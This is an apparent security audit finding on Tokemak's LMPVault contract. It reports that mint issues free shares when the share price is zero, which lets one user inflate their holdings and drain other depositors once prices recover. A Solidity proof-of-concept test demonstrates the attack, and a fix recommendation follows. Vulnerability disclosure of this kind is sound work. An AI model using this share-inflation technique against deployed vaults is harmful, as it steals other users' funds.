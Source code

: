 Curved Mahogany Duck

high

# Malicious user can out run other users, resulting in a fund loss
## Summary
malicious user can abuse `mint` function in `LMPVault.sol`, resulting in a fund loss to users.
## Vulnerability Detail
In LMPVAULT the function `mint` allows user to mint as many shares as they intend without depositing any asset(given then price of a share drops to 0), this creates a vulnerability where one malicious user can steal others assets.
consider a scenario where two users(1,2) deposit assets into a vault which are then deployed into a dest vault where UL=asset ie, price of asset and underlying token are in 1:1 ratio, as the price of the underlying asset drops to 0, user1 mints shares from using  `LMPVault.mint()` 
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L382
which states that : *As opposed to {deposit}, minting is allowed even if the vault is in a state where the price of a share is zero.
     In this case, the shares will be minted without requiring any assets to be deposited.*
max amount of shares an user can deposit is dependent up on `walletLimit` which is uint256.max by default if not set, if it is so user1 can mint `tsLimit - (total shares)` number of shares, which will block user2 or other users(if any) from minting new shares
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L921
or even if the shares are limited user1 can mint all remaining shares available and stay on upperhand.
as both users wait for the price of UL to rise since they don't want to withdraw shares that are worth 0.
as soon as the price raises to some value which might be more or less than initial value, users try to redeem their shares which results in a huge loss for user2 since his shares worth less amount of assets
## Impact
direct loss of user funds
## Code Snippet
The coded POC represents how a malicious user abuses `LMPVault.mint()` vuln
Its performed on a LMPVault with 2 destination vaults(as many tests are written already in this format, its a copy most of the part)
it might be a rare case where 2 underlying token's prices drop to 0  but this attack still stands for LMPVaults with just one destination vault too.
paste this in LMPVault-Withdraw.t.sol and run `forge test --match-test "test_OutRunningOtherUser()" -vv`
```solidity
         function test_OutRunningOtherUser() public {
        _accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));
        FlashRebalancer rebalancer = new FlashRebalancer();

        // Going to work with two users for this one to test partial ownership
        // Both users get 1000 asset initially
        address user1 = vm.addr(238_904);
        vm.label(user1, "user1");
        _asset.mint(user1, 1000);

        address user2 = vm.addr(89_576);
        vm.label(user2, "user2");
        _asset.mint(user2, 1000);

        // User 1 will deposit 500 and user 2 will deposit 250
        vm.startPrank(user1);
        _asset.approve(address(_lmpVault), 500);
        _lmpVault.deposit(500, user1);
        vm.stopPrank();

        vm.startPrank(user2);
        _asset.approve(address(_lmpVault), 250);
        _lmpVault.deposit(250, user2);
        vm.stopPrank();

        // Check our initial state before rebalance
        // Everything should be in idle with no other token balances
        assertEq(_underlyerOne.balanceOf(address(_destVaultOne)), 0);
        assertEq(_destVaultOne.balanceOf(address(_lmpVault)), 0);
        assertEq(_underlyerTwo.balanceOf(address(_destVaultTwo)), 0);
        assertEq(_destVaultTwo.balanceOf(address(_lmpVault)), 0);
        assertEq(_lmpVault.totalIdle(), 750);
        assertEq(_lmpVault.totalDebt(), 0);

        // Going to perform multiple rebalances. 400 asset to DV1 350 to DV2.
        // So that'll be 200 Underlyer 1 (U1) and 250 Underlyer 2 (U2) back (U1 is 2:1 price)
        address solver = vm.addr(34_343);
        _accessController.grantRole(Roles.SOLVER_ROLE, solver);
        vm.label(solver, "solver");
        _underlyerOne.mint(solver, 200);
        _underlyerTwo.mint(solver, 350);

        vm.startPrank(solver);
        _underlyerOne.approve(address(_lmpVault), 200);
        _underlyerTwo.approve(address(_lmpVault), 350);

        _lmpVault.rebalance(
            address(_destVaultOne),
            address(_underlyerOne), // tokenIn
            200, // Price is 2:1 for DV1 underlyer
            address(0), // destinationOut, none when sending out baseAsset
            address(_asset), // baseAsset, tokenOut
            400
        );
        _lmpVault.rebalance(
            address(_destVaultTwo),
            address(_underlyerTwo), // tokenIn
            350, // Price is 1:1 for DV2 underlyer
            address(0), // destinationOut, none when sending out baseAsset
            address(_asset), // baseAsset, tokenOut
            350
        );
        vm.stopPrank();

        // So at this point, DV1 should have 200 U1, with LMP having 200 DV1
        // DV2 should have 350 U2, with LMP having 350 DV2
        // We also rebalanced all our idle so it's at 0 with everything moved to debt

        assertEq(_underlyerOne.balanceOf(address(_destVaultOne)), 200);
        assertEq(_destVaultOne.balanceOf(address(_lmpVault)), 200);
        assertEq(_underlyerTwo.balanceOf(address(_destVaultTwo)), 350);
        assertEq(_destVaultTwo.balanceOf(address(_lmpVault)), 350);
        assertEq(_lmpVault.totalIdle(), 0);
        assertEq(_lmpVault.totalDebt(), 750);

        // after rebalance assume if the price of the tokens become 0 

        _mockRootPrice(address(_underlyerTwo), 0);
        _mockRootPrice(address(_underlyerOne), 0);
        _lmpVault.updateDebtReporting(_destinations);
        assertEq(_lmpVault.totalDebt(), 0);
        assertEq(_lmpVault.totalIdle(), 0);
        //since lmpVault.mint requires no asset to mint extra shares when the price of share price is 0
        //taking this as an advantage user1 mints max amount of shares

        // max amount of shares depents upon the walletLimit from lmpVault.sol 
        //its by default uint256.max unless its set to other value 
        // in this poc user1 mints up to 15k shares without depositting any asset.
        //since 
        vm.startPrank(user1);
        _lmpVault.mint(15000, user1);
        vm.stopPrank();
        assertEq(_lmpVault.balanceOf(user1), 15500); //thats 500 initial shares + 15000 shares
        assertEq(_lmpVault.balanceOf(user2), 250); //unchanged shares ie, 250

       //both users wait for the price of UL to rise since they dont want to withdwraw
       // shares that are worth 0.

        _mockRootPrice(address(_underlyerOne), 2e18);
        _mockRootPrice(address(_underlyerTwo), 1e18);
        _lmpVault.updateDebtReporting(_destinations); 
       //as soon as the price of the token has increased got back to initial price
        vm.prank(user1);
        uint256 user1Assets = _lmpVault.redeem(15500, vm.addr(4847), user1);
        vm.prank(user2);
        uint256 user2Assets = _lmpVault.redeem(250, vm.addr(5847), user2);
        //out of the 750 total asset value user1 got to redeem 98.4% of it since he minted extra shares
        //original asset values of shares should be user1-500 user2-250
        assertEq(user1Assets, 738);
        assertEq(user2Assets, 12);
       assertEq(_lmpVault.totalDebt(), 0); // this is just to prove all the assets have been 
       assertEq(_lmpVault.totalIdle(), 0); //claimed and there are none remaining
    }
```
## Tool used
Manual Review
## Recommendation
disallow users to mint free shares even though a share is worth no value.
even if the mint functionality is publically known, it creates a race condition where the first user to mint max shares gets more profit.